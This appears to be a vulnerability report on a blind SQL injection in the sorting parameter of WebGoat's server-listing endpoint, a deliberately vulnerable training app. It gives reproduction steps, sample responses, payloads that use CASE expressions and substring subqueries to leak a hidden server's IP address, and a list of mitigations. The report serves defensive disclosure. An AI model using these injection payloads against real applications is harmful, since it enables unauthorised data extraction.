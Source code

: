 # WebGoat. List of servers. Sorting criteria is vulnerable to SQL injection.
Sorting criteria in requests to the Servers Listing endpoint is vulnerable to SQL injection. 
It is possible to substitute extended ORDER BY statement instead of valid column name in request parameters. 
Then it is possible to obtain information about hidden servers from DB - IP address, MAC address, status, etc.

## Requirements Violation
The following requirements are violated:
- [Application Security Requirements v. 4.0] [11.1.6] Data Validation should be implemented according to given strategies.
- [Application Security Requirements v. 4.0] [13.4] Mitigating SQL injection.

## Business Impact
- Unauthorized access to system data.
- Facilitating other types of attack.

## Steps to Reproduce
1. Login to the application. Use valid session for the following requests. 
2. Make GET request to the `WebGoat/SqlInjectionMitigations/servers` endpoint with parameter `column=id`. You will see the list of servers sorted by id: 
```json
    [ {
      "id" : "1",
      "hostname" : "webgoat-dev",
      "ip" : "192.168.4.0",
      "mac" : "AA:BB:11:22:CC:DD",
      "status" : "online",
      "description" : "Development server"
    }, {
      "id" : "2",
      "hostname" : "webgoat-tst",
      "ip" : "192.168.2.1",
      "mac" : "EE:FF:33:44:AB:CD",
      "status" : "online",
      "description" : "Test server"
    }, {
      "id" : "3",
      "hostname" : "webgoat-acc",
      "ip" : "192.168.3.3",
      "mac" : "EF:12:FE:34:AA:CC",
      "status" : "offline",
      "description" : "Acceptance server"
    }, {
      "id" : "4",
      "hostname" : "webgoat-pre-prod",
      "ip" : "192.168.6.4",
      "mac" : "EF:12:FE:34:AA:CC",
      "status" : "offline",
      "description" : "Pre-production server"
    } ]
```
3. Make the similar request but with `column=hostname`. You will see the same list sorted by hostname:
```json
[ {
  "id" : "3",
  "hostname" : "webgoat-acc",
  "ip" : "192.168.3.3",
  "mac" : "EF:12:FE:34:AA:CC",
  "status" : "offline",
  "description" : "Acceptance server"
}, {
  "id" : "1",
  "hostname" : "webgoat-dev",
  "ip" : "192.168.4.0",
  "mac" : "AA:BB:11:22:CC:DD",
  "status" : "online",
  "description" : "Development server"
}, {
  "id" : "4",
  "hostname" : "webgoat-pre-prod",
  "ip" : "192.168.6.4",
  "mac" : "EF:12:FE:34:AA:CC",
  "status" : "offline",
  "description" : "Pre-production server"
}, {
  "id" : "2",
  "hostname" : "webgoat-tst",
  "ip" : "192.168.2.1",
  "mac" : "EE:FF:33:44:AB:CD",
  "status" : "online",
  "description" : "Test server"
} ]
```
4. Make a request with SQL injection in column parameter value `column=case when true then id else hostname end;`. You will see servers list sorted by id. 
5. Make another request with SQL injection where `column=case when false then id else hostname end;`. You will see servers list sorted by hostname.
It means that application accepts SQL injection in ORDER BY statement of the query. And then it is possible to retrieve information from DB by managing blind SQL injection attack.
For example, make a request with `column=case when (select cast(substring(ip, 1, 3) as int) < 110 from servers where hostname='webgoat-prd') then id else hostname end;`. Response will contain list of servers sorted by id.
So we can conclude that the first number of IP address of the production server is less than 110. Having a few of such requests done it is possible to obtain the full IP address of the server.

**Expected result:** Requests with unexpected values of column parameter are rejected.  
**Actual result:** Requests with unexpected column parameter values are handled as valid. 

## Mitigation Recommendations
1. Define a restricted set of column names which are valid to use as a sorting criteria. Reject any column values not present in the defined set.
2. Use prepared statements to run SQL queries, use all variable values as prepared statement parameters. 
3. See https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

## Additional Information
**Version**: 8.2.2  
**CVSS**: https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N